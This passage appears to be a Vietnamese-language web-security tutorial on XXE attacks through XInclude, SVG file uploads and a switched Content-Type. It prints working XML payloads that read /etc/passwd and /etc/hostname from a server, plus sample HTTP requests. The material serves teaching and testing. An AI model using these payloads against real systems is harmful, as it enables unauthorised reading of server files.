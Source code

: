 **Ví dụ:**
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="text" href="file:///etc/passwd"/>
</foo>
```

**Giải thích:**
- `xmlns:xi` khai báo namespace XInclude.
- `xi:include` sẽ yêu cầu parser chèn nội dung tệp `/etc/passwd` vào tài liệu XML.

---

### 📤 Tấn công XXE qua file upload

- Một số định dạng file phổ biến **dựa trên XML hoặc chứa XML con**, ví dụ:
  - DOCX (tài liệu Office)
  - SVG (hình ảnh vector)

- Nếu ứng dụng cho phép tải file và xử lý server-side, kẻ tấn công có thể:
  - Gửi **tệp SVG độc hại** (dù ứng dụng chỉ mong đợi PNG/JPEG)
  - Khai thác **bề mặt tấn công ẩn** của XXE thông qua quá trình xử lý file tải lên

**Ví dụ:**
```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

### ⚡ XXE attacks via modified Content-Type

- Một số yêu cầu **POST** mặc định sử dụng `Content-Type: application/x-www-form-urlencoded` — đây là kiểu được HTML form sinh ra.  
- Nhiều trang web mong đợi nhận dữ liệu ở định dạng này, nhưng một số vẫn **chấp nhận các loại content type khác, như XML**.

📌 Điều này mở ra **bề mặt tấn công XXE ẩn**:  
Nếu ứng dụng **chấp nhận nội dung XML** và **phân tích (parse) nội dung body như XML**, thì chỉ cần **gửi lại request ở định dạng XML** là có thể khai thác được.

#### 📝 Request bình thường:

```
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

#### 🧪 Request thử bằng XML:
```
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```
